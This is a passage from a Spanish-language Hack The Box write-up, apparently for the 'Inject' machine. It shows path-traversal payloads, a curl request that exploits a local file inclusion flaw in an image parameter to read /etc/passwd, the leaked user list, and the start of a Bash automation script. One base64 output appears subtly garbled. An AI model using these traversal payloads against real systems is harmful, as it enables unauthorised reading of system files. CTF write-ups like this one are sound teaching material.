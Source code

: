 ```bash
❯ echo -n "\..\..\..\..\..\..\..\..\..\etc\passwd" | base64
XC4uXC4uXC4uXC4uXC4uXC4uXC4uXC4uXC4uG3RjXHBhc3N3ZA==

❯ echo -n "/../../../../../../../../../etc/passwd" | base64
Ly4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uL2V0Yy9wYXNzd2Q=
```

Si hacemos la prueba con `Burpsuite` funciona

![](/assets/images/htb-writeup-inject/burp.png)

Estos usuarios tiene una `Bash`

```bash
❯ curl -s -X GET "http://10.129.178.70:8080/show_image?img=../../../../../../etc/passwd" | grep sh
root:x:0:0:root:/root:/bin/bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin

```

Vamos a hacer un script en `Bash` para automatizar el `LFI`

```bash
#!/bin/bash 

#Colours
greenColour="\e[0;32m\033[1m"
endColour="\033[0m\e[0m"
redColour="\e[0;31m\033[1m"
blueColour="\e[0;34m\033[1m"
yellowColour="\e[0;33m\033[1m"
purpleColour="\e[0;35m\033[1m"
turquoiseColour="\e[0;36m\033[1m"
grayColour="\e[0;37m\033[1m"

function ctrl_c(){
  echo -e "\n\n${redColour}[!] Saliendo...${endColour}"
  exit 1
}

#Ctrl + c
trap ctrl_c INT # esto va a la funcion ctrl_c()
```